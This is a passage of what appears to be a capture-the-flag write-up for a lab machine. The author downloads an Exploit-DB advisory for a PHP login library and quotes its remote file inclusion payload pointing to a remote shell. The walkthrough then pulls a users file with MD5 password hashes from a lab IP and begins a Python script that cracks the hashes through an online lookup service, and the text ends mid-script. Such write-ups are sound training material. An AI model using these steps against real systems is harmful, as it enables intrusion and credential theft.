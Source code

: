 
## Exploitation
### File Disclosure

I Download the exploit to the attacking machine and we review its content.

``` bash
root@kali:~$ wget https://www.exploit-db.com/download/7444
root@kali:~$ less 7444.txt
...
[0x02] Bug:[Remote File Inclusion]

[!] EXPLOIT: /[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]
...
[0x03] Bug:[Sensitive Data Disclosure]
...
In this login system, sensible datas like username and password are stored in a local
text file , so we can get sensitive information just going to this txt file . The name of
this file is set in slogin_lib.inc.php. By default is: slog_users.txt

[!] EXPLOIT: /[path]/slog_users.txt
...
```

I tried exploiting by Remote File Inclusion but for some reason it doesn't work and I opt for Sensitive Data Disclosure wich allows me to read usernames and passwords in the **slog_users.txt** file.

![](/assets/images/development/screenshot-9.png)

I downloaded the **slog_users.txt** file and filtered the password hashes to a file called hashes.txt.

``` bash
root@kali:~$ wget http://192.168.179.130:8080/developmentsecretpage/slog_users.txt
root@kali:~$ cat slog_users.txt 
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81
patrick, 87e6d56ce79af90dbe07d387d3d0579e
qiu, ee64497098d0926d198f54f6d5431f98
root@kali:~$ awk '{print $2}' slog_users.txt > hashes.txt
```

I developed a python script to crack these md5 hashes.

```python
#!/usr/bin/env python3

import requests,re

def decrypt(hash):
    try:
        r=requests.get(f"https://md5.gromweb.com/?md5={hash}")
        md5_decrypt=re.findall("\sstring\">(.*?)</.*", r.text)
        return md5_decrypt[0]
    except:
        pass

hashes=open("hashes.txt").read().splitlines()
```